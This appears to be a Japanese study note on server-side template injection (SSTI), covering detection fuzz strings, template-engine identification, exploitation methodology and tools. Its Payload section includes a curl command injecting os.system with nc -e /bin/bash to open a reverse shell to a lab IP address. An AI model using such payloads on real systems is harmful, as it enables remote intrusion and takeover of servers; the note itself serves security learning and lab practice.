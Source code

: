 ## ## SSTIの理解
 - SSTIは、SSTIを見つけようとしないと見過ごされやすい脆弱性である。
- 発火は、XSSと同じ文字連結によって引きおこる。

---
## ## SSTIの見つけ方
### ### Step1 : Detect(検出)
 - 特殊文字の列挙(テンプレートファジング)をするのが一般的。
```sh
${{<%[%'"}}%\
```
->注意:SSTIは2つの異なるコンテキストで発生し、どれぞれ独自の検出方法が必要である。

- SSTIの有無の判断基準
	- **プレーンテキストのコンテキストの場合**
		- XSSと同じ方法で見つけることが出来るが、この場合`{{7*7}}`などの演算を入力することにより、戻り値が49となればSSTIがあるという理解でいいだろう。
			※数字演算の場合、使用するテンプレートエンジンによって正しい書式が異なるので注意が必要。
	- **コードコンテキスト**
		- **Step1:XSSサイトでないことの確認が必要**
			```Example
			URL: http://site.com/?greeting=data.username<tag>
			目的: 直接的なXSS脆弱性がないことを確認
			期待結果: <tag>がエスケープされるか、エラーになる
			```
		- **Step2:テンプレート構文からの脱出。**
			```Example
			URL: http://site.com/?greeting=data.username}}<tag>
			目的: テンプレート式から抜け出してHTMLを挿入
			期待結果: もしSSTIがあれば「Hello Carlos<tag>」と表示される
			```

### ### Step2 :  Identify(特定)
SSTIの可能性を検出したら、次はtemplateエンジンを特定すること。
テンプレートエンジンの特定は以下の図のようなペイロードを送ればわかる。
![[Pasted image 20250612224600.png]]
※注意:同じテンプレート言語で成功レスポンスを返す場合があることに注意が必要。
1つのテンプレートで決めつけず複数のペイロードを使用する方がいい。

### ### Step3 :Exploit(悪用)
SSTIはRCEができる可能性はあるが、必ずしもうまくいくとは限らない。ただRCEができないからと言って他のエクスプロイトの可能性がないわけではない。トラバーサルや他の深刻度の高い脆弱性が使用されることがある。
- **step1:ドキュメントを読む**
	- まずテンプレートエンジンの特定が出来たら、そのドキュメントを読んで理解を深めることから始める。
		- その際に意識することは基本的なテンプレート構文を学ぶこと。
	- セキュリティの影響の箇所を読む。ドキュメントにはセキュリティセクションみたいな箇所が存在する。通常はテンプレートで避けるべき危険な関数に関することだったりが記載されている。
	- オンラインでテンプレートエンジンの脆弱性がないかを探す。
- **Step2:探索**
	- ターゲットのサイトを巡回して、アクセスできるすべてのオブジェクトを見つける。
		- また、`self`、`environment`オブジェクトが公開されているケースが多い。
			- ↑このオブジェクトは、使用できる関数やメソッド、また、使用されている変数や属性を確認することが出来るオブジェクト。
	- 開発者独自で作ったオブジェクト
		- 意識することとして、エンジンによって提供されるオブジェクトと開発者が作ったサイト固有のカスタムオブジェクトの両方が含まれている点に注意が必要。
			- これらの非標準オブジェクトには、機密情報や悪用可能なメソッドが含まれる可能性が高いため特に注意が必要。
- **Step3:カスタム攻撃を作成する**
	- ここは後ほど記載する。
--- 
![[Pasted image 20250524180648.png]]
- 上記のような{}が出力されているときは、SSTIを疑ってよい


## ## Payload
```
curl -i http://192.168.237.117:50000/verify -X POST --data 'code=5*5'
curl -i http://192.168.243.117:50000/verify -X POST --data 'code=os.system("nc 192.168.45.154 18000 -e /bin/bash")'
```
※参考サイト
[https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys);

---
## ## Enumeration
### ### wordbruteforce
```sh
ffuf 
```


## ## Tools
- [SSTImap](http://github.com/vladko312/SSTImap)